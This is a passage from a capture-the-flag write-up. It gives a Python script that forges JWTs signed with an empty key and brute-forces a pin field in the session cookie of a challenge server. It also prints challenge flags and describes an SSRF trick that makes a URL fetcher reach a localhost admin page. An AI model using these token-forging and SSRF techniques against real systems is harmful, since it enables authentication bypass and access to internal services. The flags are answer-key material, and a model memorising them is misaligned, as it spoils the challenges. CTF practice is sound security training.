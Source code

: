 Replace the base_url and the token and run this script
```py 
import jwt
import requests

tokenFor1000 = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpc19hZG1pbiI6IjEiLCJmbGFnIjoiMSIsInBpbiI6MTAwMH0.p1IWmUpla2iM_4aa-iMQIGz-uB5ZyTibrXqYQV2mAFI"
payload = {
  "user": "admin",
  "is_admin": "1",
  "flag": "1",
  "pin": 1000
}

# Header
# {
#   "alg": "HS256",
#   "typ": "JWT"
# }

# I want all tokens to have the same signature and pin from 1000 to 9999
# I will brute force the pin
base_url = "http://34.89.210.219:30997/"
# I want to set a cookie and print the output

for i in range(1000, 1999):
    payload["pin"] = i
    token = jwt.encode(payload, "", algorithm='HS256')
    # Add the token to the sessionKey cookie and get the response
    cookies = {"sessionKey": token}
    r = requests.get(base_url, cookies=cookies)
    print(f"Trying pin {i} - {r.text}")

```

You will found a flag on pin `7331` which maybe it's something funny it's an inverse number of `1337` which it's a popular number in CTF :) 

---
### sided-curl 
#### **Flag : <span style="color:rgb(60, 179, 113)">CTF{36555d5ff86de7b5a572f4c01cbfc8c677b1c1287d9c043618442d248d940b65}</span>**
#### Solution

First I tested what is happening if I ad `.` to the url resulting `https://google.com/.`. I`ve seen that every time we use an link it adds `.png` at the final.
![curl](https://github.com/Inf3n0s/CTF-Writeups/assets/75357316/8415011c-40c8-4fa4-9972-6372594584c7)

After this,I added `127.0.0.1:8000` , the local host mentioned and `/admin#` to see admin login details.
![image](https://github.com/Inf3n0s/CTF-Writeups/assets/75357316/077e6c3c-0993-4053-a22f-ffbabf4e8002)
